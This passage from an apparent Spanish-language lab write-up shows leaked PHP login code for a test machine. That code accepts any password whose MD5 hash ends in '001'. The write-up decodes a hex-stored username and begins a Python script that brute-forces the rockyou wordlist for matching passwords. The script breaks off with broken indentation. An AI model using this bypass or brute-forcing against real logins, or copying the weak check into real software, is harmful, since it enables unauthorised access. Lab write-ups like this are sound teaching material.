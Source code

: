- `http://10.10.21.12/console/functions.phps`

```php
 <?php
include('config.php');

function is_valid_user($user) {
    $user = bin2hex($user);

    return $user === LOGIN_USER;
}

// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);

    return substr($hash, -3) === '001';
} 
```

- `http://10.10.21.12/console/config.phps`:

```php
 <?php

define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 
```

Para obtener el contenido en texto plano realizaremos lo siguiente:

```php
echo 6a61736f6e5f746573745f6163636f756e74 | xxd -r -p
jason_test_account
```

Tenemos el `usuario` que es valido. Visualizando el código vemos que se hace una comparativa de los tes últimos dígitos de un hash, este hash es generado al ingresar la contraseña. 
## Explotación

Para automatizar el proceso de encontrar la palabra que al convertir un hash md5 en los tres últimos dígitos  contengo `001`.

```python
#!/usr/bin/python3

import sys
from pwn import *
import hashlib
import signal

  

def crtl_C(signal,frame ):
	print(" [!] Exting...")
	sys.exit(0)

signal.signal(signal.SIGINT, crtl_C)

def hash_md5(word):
	hashmd5=hashlib.md5(word.encode())
	hex_hashmd5=hashmd5.hexdigest()
	if hex_hashmd5.endswith("001"):
		print(word,end="")

if __name__=='__main__':
file = open('/usr/share/wordlists/rockyou.txt', 'r', encoding='latin-1')
p1=log.progress("Data")
```